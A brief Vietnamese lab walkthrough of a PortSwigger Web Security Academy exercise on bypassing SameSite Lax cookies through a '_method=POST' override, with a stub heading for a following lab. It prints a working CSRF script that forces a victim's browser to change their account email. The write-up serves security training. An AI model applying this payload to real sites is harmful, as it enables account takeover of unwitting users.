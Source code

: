 
# [Lab 7: SameSite Lax bypass via method override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)

![Yêu cầu lab 7](image.png)

```
- Mô tả lab:

- Mục tiêu: 
```

main web

![Alt text](../image/lab7/01.png)

login `wiener:peter`, `Update email`

![Alt text](../image/lab7/02.png)

không hề có CSRF token bảo vệ

![Alt text](../image/lab7/03.png)

SameSite cũng không chặn gì

![Alt text](../image/lab7/04.png)

đổi method POST sang GET (Right-click → Change request method)

![Alt text](../image/lab7/05.png)

method không được phép

![Alt text](../image/lab7/06.png)

thêm key `_method=POST` thì lại change được bình thường

![Alt text](../image/lab7/07.png)

![Alt text](../image/lab7/08.png)

→ Tấn công CSRF

```
<script>
    document.location = "https://0a7b009e0489153780b626ba00ba0007.web-security-academy.net/my-account/change-email?email=solveb%40Test&_method=POST"
</script>
```

![Alt text](../image/lab7/09.png)

View exploit để test xem có thành công không và deliver to victim and solve lab

![Alt text](../image/lab7/10.png)

# [Lab 8: SameSite Strict bypass via client-side redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

![Yêu cầu lab 8](image.png)

main web

![Alt text](image-1.png)

# []()

# []()

